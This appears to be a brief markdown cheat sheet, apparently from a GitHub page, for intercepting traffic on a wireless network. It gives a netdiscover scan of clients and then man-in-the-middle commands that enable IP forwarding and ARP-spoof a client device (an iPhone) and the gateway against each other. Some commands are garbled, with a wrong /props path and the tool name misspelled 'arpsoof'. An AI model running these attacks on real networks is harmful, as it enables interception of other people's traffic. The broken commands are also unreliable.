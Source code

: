 get info about clients on network

```
netdiscover -i wlan0
```

# mitm

```
echo 1 > /props/sys/net/ipv4/ip_forward   # enable ip forwarding
arpsoof -i wlan0 <ip_of_client> <gateway> # tell the ap we are the iphone
arpsoof -i wlan0 <gateway> <ip_of_client> # tell the iphone we are the ap
```
